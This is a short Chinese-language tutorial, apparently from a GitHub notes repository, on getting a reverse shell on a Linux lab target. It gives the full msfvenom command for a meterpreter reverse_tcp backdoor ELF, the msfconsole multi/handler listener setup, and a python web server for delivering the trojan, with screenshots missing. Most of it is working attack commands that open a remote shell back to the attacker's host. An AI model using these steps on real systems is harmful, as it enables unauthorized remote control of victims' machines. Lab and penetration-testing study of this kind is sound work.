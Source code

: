 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台靶机

# 二、木马生成

1. 生成一个Linux后门
2. msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} -f elf > shell.elf!![1643108165465](22 通过木马反弹shell（Linux）.assets/1643108165465.png)

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf

   ![1643108186343](22 通过木马反弹shell（Linux）.assets/1643108186343.png)

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 加载payload  msf终端中输入：set payload linux/x64/meterpreter/reverse_tcp

4. 配置payload  msf终端中输入：show options

   ![1643108202630](22 通过木马反弹shell（Linux）.assets/1643108202630.png)

5. 配置payload监控IP msf终端中输入： set  lhost  {监控IP}

6. 配置payload监控端口  msf终端中输入：set lport  {监控端口} （注意这里要和木马配置时使用的端口相同&如果使用内网穿透服务填写转发后的端口）

7. 检查payload配置  msf终端中输入：show options

8. 执行监控  msf终端中输入： run

   ![1643108218621](22 通过木马反弹shell（Linux）.assets/1643108218621.png)

# 四、攻击利用

1. 将木马上传到靶机 

   通过python创建一个简单web服务

    python2 -m SimpleHTTPServer 80

2. 在靶机上执行木马 

   

3. 完成攻击利用

   ![1643108263211](22 通过木马反弹shell（Linux）.assets/1643108263211.png)













